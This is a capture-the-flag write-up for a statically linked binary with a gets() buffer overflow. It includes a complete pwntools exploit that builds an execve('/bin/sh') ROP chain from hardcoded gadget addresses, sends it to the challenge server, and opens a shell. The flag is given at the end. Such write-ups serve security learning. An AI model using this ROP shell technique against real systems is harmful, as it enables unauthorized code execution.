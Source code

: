 # Statics and Dynamics 

So this is a static binary. It's got a lot of libc zipped up within itself, removing ret2libc and ret2plt and stuff like that. Disassembling main and ignoring all the extra libc functions, we see it prints the string about it being a large binary and then calls gets on rbp-0x100. So, buffer overflow obviously. But what do we ret to? How to pop a shell?

System, execve etc. all the stuff that may be useful for shell popping is removed from the binary's libc functions. That doesn't matter though.

The libc is *big*, and it has a lot of purposes. It'll need to do many things including syscalls. Because of this, libc is always a ROP gadget goldmine. Since this binary has most of libc in itself, this binary is also a ROP gadget goldmine.

Due to this, we can build a simple execve ROP chain to execve("/bin/sh",NULL,NULL), then cat flag.txt.

```python

from pwn import *
NUM_TO_RET = 0x100 + 8
padding = b'A' * NUM_TO_RET
e = ELF("./sad")
poprax = 0x000000000043f8d7
poprdi = 0x000000000040187a
poprsi = 0x0000000000407aae
poprdx = 0x000000000040177f
syscall = 0x000000000040eda4
binsh = next(e.search(b"/bin/sh\x00"))
# Build execve rop chain
payload = flat(poprdi,binsh,poprsi,0,poprdx,0,poprax,0x3b,syscall,word_size=64)
p = e.process() if args.LOCAL else remote('jh2i.com', 50002)
p.recvline()
p.sendline(padding + payload)
p.interactive()
```
#### Flag: flag{radically_statically_roppingly_vulnerable}
